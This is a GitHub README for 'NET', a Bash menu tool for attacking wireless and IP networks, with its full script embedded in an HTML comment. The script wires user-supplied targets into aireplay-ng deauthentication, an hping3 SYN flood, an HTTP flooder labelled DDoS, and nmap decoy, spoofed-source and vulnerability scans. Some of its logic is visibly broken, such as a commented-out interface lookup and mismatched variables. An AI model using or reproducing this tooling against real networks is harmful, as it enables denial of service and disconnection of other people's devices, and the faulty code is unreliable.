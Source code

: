 <!-- Badges -->
![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) <!-- Kali bagdge--> ![Kali](https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white) <!-- Linux bagdge-->![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)

![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)
<!-- Begin the file -->

# **NET**

![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)

NET is a tool that automates various options for network scanning and attacking, specifically for wireless networks

![NET-Tool](./images/NET_tool_image.jpg "NET tool Menu ")

### You can also type " c " to clear the terminal


![](https://user-images.githubusercontent.com/61265099/78818286-19743180-79dd-11ea-84c5-f629f891dd4b.png)

# **installation**
```terminal

git clone https://github.com/Mooshaah/net-tool.git

cd net-tool
chmod u+x net
./net
```
### hint : you need to cd into the program directory and type " ./net " every time you want to run the program
















<!-- #!/bin/bash

Scanner_menu(){
echo -e "\e[36m=====================================================
     A          EEEEEEE   H       H
    A A         E         H       H
   A   A        E         H       H
  AAAAAAA       EEEEE     HHHHHHHHH
 A       A      E         H       H
A         A     EEEEEEE   H       H
    
=====================================================
1) Check for a Wirless network card
2) Set your wirless network card to \e[33mMoniter Mode\e[36m
3) scan for available routers
4) Launch a De-Auth Attack
5) scan for IP addresses & open ports using \e[35mNMAP\e[36m
6) Launch a \e[31mDOS\e[36m attack
7) Launch a \e[31mDDOS\e[36m attack
8) Launch \e[33mWifi\e[36m\e[32mte\e[36m attack
9) quit
=====================================================\e[0m"
}

NMAP(){
echo -e "\e[35m=====================================================
	 //\\      // ||\\  //||    //\\    ||===\\
	//  \\    //  || \\// ||   //  \\   ||   ||
 ===== //    \\  //   ||     ||  //====\\  ||===// =====
      //      \\//    ||     || //      \\ ||
=====================================================
1) Host scan 
2) Preform an OS scan
3) Scan for MAC & IP addersses
4) Port scan
5) Decoy scan
6) Scan for vulnerabilities
7) Scan using spoofed ip address
8) Return to main menu
=====================================================\e[0m"
}

port(){
echo -e "\e[35m====================Port Menu========================
1) Scan a specific port
2) Scan for all ports
3) Scan a range of ports
4) Return main menu
=====================================================
\e[0m"
}

Scanner_menu

# wifi_interface=$(iwconfig 2>/dev/null | grep '^\w' | cut -d ' ' -f 1)

while true; do
read -p "Choose an option or type 9 to quit!: " SCANNER_OPTION
case $SCANNER_OPTION in
	[1])
		
		if [ -z "$wifi_interface" ]; then
    			echo "No wireless interface found."
			Scanner_menu # Displays the menu after every option entered by the user
		else
			iwconfig 2>/dev/null | awk '!/^(lo|eth0)/'
		fi
		;;
	[2])
		airmon-ng start $wifi_interface  
		Scanner_menu
		echo -e  "\e[31mNOTTE YOU HAVE TO RESTART THE PROGRAM AFTER THIS PROCESS !\e[0m"

		;;
	[3])
		airodump-ng $wifi_interface
		Scanner_menu
		;;
	[4])
		read -p "Enter the number of Deauth Packets: " DEAUTH
		read -p "Enter the target network MAC/BSSID: " ROUTER_MAC
		read -p "Enter the target client MAC/STATION: " CLIENT_MAC

		if [ -z "$DEAUTH" ]
		then
			 echo "The number of De-auth packet to send is empty, pleae insert any number for the packets to be sent !."

		 else

			if [ -z "$ROUTER_MAC" ]
			then
				echo "Router MAC/BSSID is empty please insert the BSSID of the target router ! "
			else
				if [ -z "$CLIENT_MAC" ]
				then
		
					echo "Client MAC is empty !, please enter the MAC/STATION of the client you want to attack !"
				else
		
					echo " Please enter a target MAC/STATION ! " | read -p $CLIENT_MAC
					aireplay-ng --deauth $DEAUTH -a $ROUTER_MAC -c $CLIENT_MAC $wifi_interface
					Scanner_menu
		fi
			fi
		fi
			;;

		[5])
			#Printing the nmap menu
			NMAP
			#Taking user input
			while true; do
			read -p "Enter an option of the menu above: " NMAP_OPTION
			case $NMAP_OPTION in
			   [1])
		           	   read -p "Enter the ip adderss: " IP
				   nmap $ip
				   ;;
			   [2])
				   read -p "Enter the ip adderss:" OS_IP
				   nmap $OS_IP
				   ;;
			   [3])
				   read -p "Enter the range of ips to be scanned: " IP_RANGE
				   nmap -sn $IP_RANGE
				   ;;
			   [4])

			   while true; do
				   port
				   read -p "choose an option from 1-4: " PORT_MENU
				   if [ $PORT_MENU -eq 1 ]
				   then
					   read -p "Enter the port you want to scan: " PORT
					   read -p "Enter the target IP: " TAR_IP
					   nmap -p $PORT $TAR_IP
				   elif [ $PORT_MENU -eq 2 ]
				   then
					   read -p "Enter the Target IP: " TARGET_IP
					   nmap -p- $TARGET_IP
				   elif [ $PORT_MENU -eq 3 ]
				   then
					   echo "EX: from 1-100"
					   read -p "Enter the range of ports you want to scan: " RANGE
					   read -p "Enter the target IP: " target_ip
				           nmap -p $RANGE $target_ip
				   elif [ $PORT_MENU -eq 4 ]
				   then
				  	NMAP
					break
				   fi
			   done
				   ;;
			   [5])
				   read -p "Enter the first fake IP: " DECOY1
				   read -p "Enter the second fake IP: " DECOY2
				   read -p "Enter the third fake IP: " DECOY3
				   nmap -sS -Pn  -D $DECOY1 $DECOY2 $DECOY3
				   ;;

			   [6])
				   read -p "Enter the targer IP: " ip
				   nmap -sV --script vuln $ip
				   ;;
			   [7])
				   read -p "Enter the spoofed ip: " SPOOFED_IP
				   read -p "Enter the target ip: " P
				   nmap -sS -S $SPOOFED_IP $P
				   ;;
			   [c])
				   clear
				   NMAP
				   ;;
			   [8])
				   Scanner_menu
				   break

		   esac
	   done
		   ;;
	   [6])
		   #DOS
		   read -p "Enter the port of you're targeting: " DOS_PORT
		   read -p "Enter the IP of the network you're targeting: " DOS_IP
		   hping3 -i u1 -S -p $DOS_PORT  $DOS_IP
		   ;;
	   [7])
		   #DDOS
		   read -p "Enter the ip address of the target network to flood: " DDOS_IP
		   python2 saphyra.py http://$DDOS_IP
		   ;;
	   [8])
		   #Wifite

			if which wifite >/dev/null; then
				cd ~/MTIMf
				python2 ./mitmf
			else
				apt install wifite
			fi
		   
		   ;;

	[9]| [quit])
		exit
		;;
	[c])
		clear
		Scanner_menu
		;;
	*)
		echo "Please choose an option from 1 - 5: "
		;;
esac
done
 -->